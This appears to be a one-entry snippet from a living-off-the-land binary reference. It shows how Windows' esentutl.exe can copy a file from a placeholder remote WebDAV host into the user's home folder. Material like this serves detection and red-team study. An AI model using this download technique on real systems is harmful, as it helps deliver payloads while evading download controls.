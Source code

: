 ### Download file from webdav
```
esentutl.exe /y \\<rhost>\<file> /d %HOMEDRIVE%%HOMEPATH%\<outfile>
```

